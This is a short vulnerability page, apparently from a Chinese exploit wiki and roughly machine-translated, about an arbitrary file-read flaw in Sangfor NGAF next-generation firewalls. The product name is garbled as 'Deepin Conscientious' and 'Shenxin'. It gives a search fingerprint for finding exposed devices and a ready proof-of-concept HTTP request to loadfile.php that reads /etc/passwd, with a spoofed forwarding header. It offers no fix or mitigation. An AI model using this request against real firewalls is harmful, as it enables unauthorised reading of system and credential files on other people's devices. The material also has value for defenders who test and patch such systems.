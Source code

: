 # Deepin Conscientious NGAF next-generation firewall loadfile.php arbitrary file reading vulnerability

## Vulnerability Description

Deepinfo Next Generation Firewall is a next-generation application firewall designed based on application security needs. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Shenxin NGAF next-generation firewall</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"Redirect.php?url=LogInOut.php"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1697639705479-39cc829b-1edc-4102-9b01-1f5d6c9bac5a.png)

Verify POC

```php
GET /svpn_html/loadfile.php?file=/etc/./passwd HTTP/1.1
Host: 
User-Agent: Opera/8.90.(Windows NT 6.0; is-IS) Presto/2.9.177 Version/10.00
Accept-Encoding: gzip, deflate
Accept: */*
y-forwarded-for: 127.0.0.1
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1697682969308-906d84fc-40b5-4f68-8fe5-d865528e47b0.png)